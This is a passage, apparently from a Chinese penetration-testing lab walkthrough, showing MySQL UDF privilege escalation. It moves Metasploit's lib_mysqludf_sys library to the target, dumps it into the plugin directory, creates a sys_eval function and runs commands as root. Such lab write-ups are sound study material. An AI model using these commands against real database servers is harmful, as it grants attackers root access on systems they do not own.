 3、由于靶机中未找到 udf 库，我们可在msf中找到对应版本（lib\_mysqludf\_sys\_64.so）。开启http服务将udf库文件摆渡到靶机上。

[![](assets/1703831504-6e59df4891942eb51f4b1380c81d4f8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164058-a875b5e0-a493-1.png)

4、创建表，将文件内容写到表中。将表中数据，写到plugin目录，自定义一个文件名，而后创建恶意函数sys\_eval，利用函数，获得一个root权限。

```plain
mysql> select data from tmp into dumpfile"/usr/lib/mysql/plugin/udf64.so";
mysql> create function sys_eval returns string soname 'udf64.so';
myssql> select sys_eval('whoami');
```

[![](assets/1703831504-36218f7a9ffc275d88bf159419465d73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164106-ad117dfa-a493-1.png)
